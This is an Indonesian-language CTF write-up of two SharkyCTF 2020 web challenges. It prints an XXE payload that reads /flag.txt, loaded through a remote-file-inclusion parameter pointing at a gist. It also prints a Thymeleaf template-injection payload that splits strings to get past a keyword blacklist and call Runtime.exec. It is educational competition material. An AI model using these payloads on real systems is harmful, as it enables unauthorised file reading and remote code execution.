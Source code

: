 
# SharkyCTF 2020
It's like a half year ago since my last writeup in my Github. Please enjoy my writeup of SharkyCTF after playing with HCS (Heroes Cyber Security).

## XXEternalXX
**Deskripsi**
> One of your customer all proud of his new platform asked you to audit it. To show him that you can get information on his server, he hid a file "flag.txt" at the server's root.

> (xxexternalxx.sharkyctf.xyz)[xxexternalxx.sharkyctf.xyz]

**Pembahasan**
Dari judulnya bisa ditebak ini akan menggunakan XXE (**XXE**ternal). Maka coba kita cek :

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/SharkyCTF_2020/xxeternalxx/1.png)

Saat mengecek link yang diarahkan oleh web, ternyata XML yang diberikan berasal dari include dari web tersebut ([http://xxexternalxx.sharkyctf.xyz/?xml=data.xml](http://xxexternalxx.sharkyctf.xyz/?xml=data.xml)). Saya mencurigai adanya vuln RFI (Remote File Inclusion) disini, sehingga saya membuat payload di [gist](https://gist.githubusercontent.com/kerupuksambel/6b8a876ce9fb3b9ebf285af9b15a57b3/raw/38db37b86c3296d078743a998a8793b85a8eeaf5/exploit) ini.

```
<?xml version="1.0" ?>
<!DOCTYPE data [
    <!ENTITY amber SYSTEM "file:///flag.txt">
]>

<root>
  <data>
    &amber;
  </data>
</root>

```

Saya menggunakan payload yang bersumber dari [RihaMaheshwari](https://github.com/RihaMaheshwari/XXE-Injection-Payloads) dan memodifikasinya sedikit agar strukturnya sesuai dengan data.xml dari web. Lalu, include payload lewat parameter GET dengan memanfaatkan vuln RFI.

http://xxexternalxx.sharkyctf.xyz/?xml=https://gist.githubusercontent.com/kerupuksambel/6b8a876ce9fb3b9ebf285af9b15a57b3/raw/38db37b86c3296d078743a998a8793b85a8eeaf5/exploit

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/SharkyCTF_2020/xxeternalxx/flag.png)

Flag : `shkCTF{G3T_XX3D_f5ba4f9f9c9e0f41dd9df266b391447a}`

## WebFugu

**Deskripsi**
> A new site listing the different species of fugu fish has appeared on the net. Used by many researchers, it is nevertheless vulnerable. Find the vulnerability and exploit it to recover some of the website configuration.

> Creator: MasterFox

> [http://webfugu.sharkyctf.xyz]

**Pembahasan**
*Dikarenakan sejauh ini platform untuk WebFugu sedang down, saya tidak bisa menginclude flag dan screenshot di PoC saya. Mohon maaf~*

Pada awalnya saya sempat kebingungan dengan WebFugu ini, namun salah seorang teman di HCS berhasil mendapatkan vulnerabilitynya yaitu berupa SSTI di Thymeleaf di `/process` yang digunakan oleh Webfugu. Terburu-buru ingin mendapat flag, saya langsung berusaha mencari celah RCE untuk mendapat flag yang mungkin didapat di root. Pertama saya membuat payload untuk menciptakan shell berupa memanggil `Java.lang.Runtime` untuk memanggil fungsi getRuntime dan memanggil perintah shell. Namun ternyata keyword `Java` dan `Runtime` diblacklist sehingga saya harus memanggil cara lain.

Stuck berjam-jam, akhirnya dengan link [ini](https://stackoverflow.com/questions/30933776/display-a-variable-inside-another-with-thymeleaf), saya bisa membuat payload yang (harusnya) berfungsi untuk memanggil perintah shell. Payload yang saya gunakan adalah 

`<div th:text=${__('T(ja'+'va.lang.Runt'+'ime).getRun'+'time().exec("ls")')__}></div>`

Namun saat dijalankan, ternyata masih error juga. Agak frustasi, saya menghubungi panitia SharkyCTF di Discord dan secara cukup mengejutkan, ia mengatakan bahwa kita tidak perlu melakukan RCE untuk mendapat flag.

:o

Setelah lelah dengan mencari celah yang tersedia, saya iseng mencoba `{{flag}}`. Dan ternyata, diketahui bahwa `{{flag}}` memang mengandung suatu variable valid dan didapati bahwa di variable tersebut ada satu attribute `content`. Mencoba `{{flag.content}}` akan mengembalikan flagnya.

Flag : -

~~AAAAAAAAAAAAAAAAAAAAAAAA kadung stres a~~

